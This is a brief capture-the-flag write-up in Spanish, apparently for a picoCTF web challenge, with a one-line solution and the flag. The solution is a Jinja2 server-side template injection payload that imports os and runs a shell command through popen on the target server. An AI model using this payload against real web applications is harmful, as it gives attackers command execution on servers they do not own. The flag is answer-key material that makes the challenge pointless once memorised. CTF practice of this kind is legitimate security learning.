 I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

----------
#Solución 
`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
Puse eso en la pagina y me arrojo la respuesta
# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}

-----------
